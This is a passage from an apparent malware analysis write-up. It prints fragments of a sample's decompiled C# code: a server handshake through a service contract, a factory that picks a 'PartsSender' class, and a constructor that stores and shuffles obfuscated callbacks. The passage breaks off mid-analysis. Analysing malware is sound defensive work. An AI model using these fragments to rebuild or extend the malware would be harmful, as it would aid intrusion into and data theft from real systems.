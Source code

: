 #### Code 7
```csharp
public bool Id5(out Entity2 args)
{
    try
    {
        args = new Entity2();
        args = connector.Id2();

[OperationContract(Name = "Id2")]
Entity2 Id2();
```

And the malware responds again with the handshake through Id1 **Code 5**.
Entity2 is just some settings provided by the server. The class data members are shown in the end.

If we analyze **Code 1** further, we find the hearth of the malware.
#### Code 8
```csharp
EntityResolver entityResolver = ItemBase.Extract<EntityResolver>();
while (!entityResolver.Invoker(connectionProvider, args, ref result))
{
   Thread.Sleep(5000);
}
```
Here, the Extract method is just:
```csharp
public static T Extract<T>() where T : EntityResolver
{
    return (Arguments.Version == 1) ? (Activator.CreateInstance<PartsSender>() as T) : (Activator.CreateInstance<FullInfoSender>() as T);
}
```

Of course both classes “PartsSender” and “FullInfoSender” will contain an “Invoker” method. We only need to check PartsSender since we know that Arguments.Version = 1 (see Code 2 above)

# Static analysis of PartsSender class 
#### Code 9 - PartsSender constructor
```csharp
{
    EntityResolver.Main = new Enter[15]
    {
        asdk9345asd, asdk8jasd, ылв92р34выа, аловй, ыал8р45, ываш9р34, ывал8н34, вал93тфыв, вашу0л34, навева,
        ащы9р34, ыва83о4тфыв, askd435, asdasod9234oasd, длвап9345
    };
    EntityResolver.First = new Enter[6] { sdf934asd, asd44123, sdfi35sdf, sdfo8n234, asdkadu8, fdfg9i3jn4 };
    Random rnd = new Random();
    EntityResolver.Main = EntityResolver.Main.OrderBy((Enter x) => rnd.Next()).ToArray();
    EntityResolver.First = EntityResolver.First.OrderBy((Enter x) => rnd.Next()).ToArray();
}
```
The constructor just stores callbacks in EntityResolver. These callbacks will contain the actual behavior of the malware.
After the Constructor, we can see in Code 8 that the Invoker method is called:
